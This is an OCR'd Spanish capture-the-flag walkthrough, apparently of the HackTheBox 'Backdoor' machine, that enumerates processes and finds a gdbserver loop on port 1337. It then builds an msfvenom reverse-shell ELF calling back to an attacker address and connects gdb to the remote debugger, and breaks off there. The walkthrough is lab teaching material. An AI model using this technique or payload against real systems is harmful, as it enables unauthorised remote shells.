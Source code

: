./brute_processes.sh  

    1: /sbin/init auto automatic-ubiquity noprompt 
    486: /lib/systemd/systemd-journald 
    512: /lib/systemd/systemd-udevd 
    529: /lib/systemd/systemd-networkd 
    ...[snip]...
    826: /usr/sbin/cron -f 
    829: /usr/sbin/CRON -f 
    830: /usr/sbin/CRON -f 
    851: /bin/sh -c while true;do su user -c "cd /home/user;gdbserver --once 0.0.0.0:1337 /bin/true;"; done 
    853: /bin/sh -c while true;do sleep 1;find /var/run/screen/S-root/ -empty -exec screen -dmS root \ ; done 
    865: /usr/sbin/atd -f 
    867: sshd: /usr/sbin/sshd -D [listener] 0 of 10-100 startups 
    887: /usr/sbin/apache2 -k start 
    898: /usr/lib/accountsservice/accounts-daemon 

Este proceso es:

    /bin/sh -c while true;
        do su user -c "cd /home/user;gdbserver --once 0.0.0.0:1337 /bin/true;"; 
    done

Está corriendo gdbservecomo usuario en un bucle en el puerto 1337.
Hacktricks tiene una página sobre explotación gdbserver. Sospecho que al menos la primera técnica se probó en Backdoor 
(dado el uso del puerto 1337 y la ubicación de /home/user). Esta técnica consiste en crear un elf y luego cargarlo en el depurador remoto y ejecutarlo allí. 

Crearé una carga útil de shell inverso simple con msfvenom: 

    msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.14.6 LPORT=443 PrependFork=true -f elf -o rev.elf
    [-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
    [-] No arch selected, selecting arch: x64 from the payload
    No encoder specified, outputting raw payload
    Payload size: 106 bytes
    Final size of elf file: 226 bytes
    Saved as: rev.elf

A continuación, comenzaré a depurarlo localmente: 

    gdb -q rev.elf 
    Reading symbols from rev.elf...
    (No debugging symbols found in rev.elf)
    (gdb)

Ahora conéctese al servidor remoto:

    (gdb) target extended-remote 10.10.11.125:1337
    Remote debugging using 10.10.11.125:1337
    Reading /lib64/ld-linux-x86-64.so.2 from remote target...
    warning: File transfers from remote targets can be slow. Use "set sysroot" to access files locally instead.
    Reading /lib64/ld-linux-x86-64.so.2 from remote target...
    Reading symbols from target:/lib64/ld-linux-x86-64.so.2...
    Reading /lib64/ld-2.31.so from remote target...
    Reading /lib64/.debug/ld-2.31.so from remote target...
    Reading /usr/lib/debug//lib64/ld-2.31.so from remote target...
    Reading /usr/lib/debug/lib64//ld-2.31.so from remote target...
    Reading target:/usr/lib/debug/lib64//ld-2.31.so from remote target...
    (No debugging symbols found in target:/lib64/ld-linux-x86-64.so.2)
    0x00007ffff7fd0100 in ?? () from target:/lib64/ld-linux-x86-64.so.2
